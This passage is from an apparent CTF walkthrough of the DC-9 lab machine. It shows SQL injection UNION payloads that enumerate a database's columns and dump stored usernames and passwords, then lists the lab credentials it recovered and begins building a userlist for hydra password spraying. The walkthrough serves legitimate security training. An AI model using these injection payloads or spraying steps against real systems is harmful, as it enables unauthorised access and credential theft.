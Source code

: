 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a13.png)

- Database `users`'s table name:`UserDetails`

**List database `users`'s column names:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='UserDetails'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a14.png)

- Database `users`'s column names:`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`

**Hmm... `username` and `password` seems interesting, let's retrieve their data:**
```sql
' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,concat(username,0x3a,password) FROM users.UserDetails-- -
```

> Note: `0x3a` means `:`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a15.png)

**Credentials:**
```
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```

In the `manage.php`, there is a login form:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/DC-9/images/a16.png)

I'll use `hydra` to do **password spraying**:

**userlist.txt:**
```
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
```